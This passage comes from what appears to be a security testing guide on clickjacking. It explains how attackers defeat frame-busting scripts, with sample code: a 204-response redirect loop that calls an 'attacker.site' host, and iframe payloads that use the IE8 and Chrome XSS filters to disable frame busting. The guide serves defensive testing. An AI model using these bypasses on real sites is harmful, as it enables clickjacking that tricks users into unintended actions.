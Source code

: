 Since with this response the browser will do nothing, the resulting of this operation is the flushing of the request pipeline, rendering the original frame busting attempt futile.

Following an example code:

204 page:

    <?php
       header("HTTP/1.1 204 No Content");
    ?>

Attacker's page:

    <script>
        var prevent_bust = 0;
        window.onbeforeunload = function() {
            prevent_bust++;
        };
        setInterval(
            function() {
                if (prevent_bust > 0) {
                    prevent_bust -= 2;
                    window.top.location = "http://attacker.site/204.php";
                }
            }, 1);
    </script>
    <iframe src="http://target site">

**XSS Filter**\
Starting from Google Chrome 4.0 and from IE8 there were introduced XSS filters to protect users from reflected XSS attacks. Nava and Lindsay have observed that these kind of filters can be used to deactivate frame busting code by faking it as malicious code.

-   <b>IE8 XSS filter</b>: this filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request's parameters.

Example: Target web page frame busting code:

    <script>
       if ( top != self ) 
       {
          top.location=self.location;
       }
    </script>

Attacker code:

    <iframe src=”http://target site/?param=<script>if”>

-   <b>Chrome 4.0 XSSAuditor filter</b>: It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.
